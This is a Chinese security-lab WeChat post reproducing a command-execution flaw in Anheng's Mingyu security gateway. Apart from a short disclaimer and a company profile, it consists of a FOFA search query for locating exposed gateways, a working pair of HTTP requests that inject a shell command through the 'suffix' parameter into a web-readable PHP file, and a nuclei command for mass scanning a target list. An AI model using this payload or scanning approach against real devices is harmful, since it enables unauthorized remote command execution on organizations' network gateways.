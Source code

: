 #  漏洞复现 安恒信息明御安全网关suffix命令执行漏洞

by 融云安全-sm  [ 融云攻防实验室 ](javascript:void\(0\);)

**融云攻防实验室** ![]()

微信号 gh_0dba7ff3f653

功能介绍 网络安全舆情快报

____

___发表于_

收录于合集

#漏洞复现 301 个

#安恒 1 个

**0x01  阅读须知**

**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 **0x02 漏洞描述**

安恒明御网关suffix存在命令执行漏洞。![]()

 **0x03 漏洞复现**

 **fofa-qeury: title="明御安全网关"**

1.执行df命令至anhengngfw.php，得到回显 ****

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&$type=1&suffix=1%7Cdf+%3E+anhengngfw.php HTTP/1.1Host: User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive GET /webui/anhengngfw.php HTTP/1.1Host: User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive

![]()

2.nuclei验证脚本已发布知识星球

  * 

    
    
    nuclei.exe -t anheng-ngfw-suffix-rce.yaml -l subs.txt -stats

 ****

![]()

 **网络安全神兵利器分享** **网络安全漏洞N/0day分享** **    加入星球请扫描下方二维码，更多精，敬请期待！**👇👇👇

![]()

 **0x04   ** **公司简介******

江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......

 **编制：sm**

 **审核：fjh**

 **审核：Dog**

 **  
**

 ** **1个![]()** 1朵 ** ** ** ** ** **![]()************** **** **5毛钱**

 **天天搬砖的小M**

 **能不能吃顿好的**

 **就看你们的啦**

 ** **![]()****

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

